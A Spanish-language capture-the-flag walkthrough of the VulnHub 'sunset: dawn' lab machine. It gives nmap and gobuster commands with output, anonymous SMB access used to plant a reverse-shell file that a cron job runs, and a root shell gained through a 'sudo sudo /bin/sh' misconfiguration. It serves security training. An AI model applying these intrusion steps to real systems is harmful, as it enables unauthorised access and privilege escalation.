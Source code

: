 # Dawn


[link => dawn](https://www.vulnhub.com/entry/sunset-dawn,341/)

---


## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.3.3.0/24
```

![nmaphd](/images/writeups/vulnhub/dawn/nmaphd.png)

### La IP de la máquina objetivo es **10.3.3.20**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.3.3.20 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 15:42 EDT
Initiating ARP Ping Scan at 15:42
Scanning 10.3.3.20 [1 port]
Completed ARP Ping Scan at 15:42, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:42
Scanning 10.3.3.20 [65535 ports]
Discovered open port 139/tcp on 10.3.3.20
Discovered open port 80/tcp on 10.3.3.20
Discovered open port 445/tcp on 10.3.3.20
Discovered open port 3306/tcp on 10.3.3.20
Completed SYN Stealth Scan at 15:42, 1.41s elapsed (65535 total ports)
Nmap scan report for 10.3.3.20
Host is up, received arp-response (0.00013s latency).
Scanned at 2024-03-12 15:42:28 EDT for 2s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 64
139/tcp  open  netbios-ssn  syn-ack ttl 64
445/tcp  open  microsoft-ds syn-ack ttl 64
3306/tcp open  mysql        syn-ack ttl 64
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 80,139,445,3306**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p80,139,445,3306 10.3.3.20 -oN scripts_exec.nmap
```



```bash
Host is up (0.00044s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, Support41Auth, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: cJ*2\X'TR}Ct?|tS!H'*
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-03-12T15:45:17-04:00
| smb2-time: 
|   date: 2024-03-12T19:45:17
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.3.3.20/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.3.3.20/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 293]
/.hta                 (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 305] [--> http://10.3.3.20/logs/]
/server-status        (Status: 403) [Size: 297]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

## Archivo management.log encontrado en http://10.3.3.20/logs/

![management.log](/images/writeups/vulnhub/dawn/managementlog.png)

## Registro de cronjob en el contenido del archivo de log 

![cronjob](/images/writeups/vulnhub/dawn/cronjob.png)


## Conexión al servicio samba y subida de archivo web-control que se ejecuta cada cierto tiempo y contiene una reverse shell

```bash
smbclient --no-pass //10.3.3.20/ITDEPT
```

![revshell](/images/writeups/vulnhub/dawn/revshell.png)

## Privesc

![sudoperms](/images/writeups/vulnhub/dawn/sudoperms.png)

```bash
sudo sudo /bin/sh
```

![flagroot](/images/writeups/vulnhub/dawn/flagroot.png)
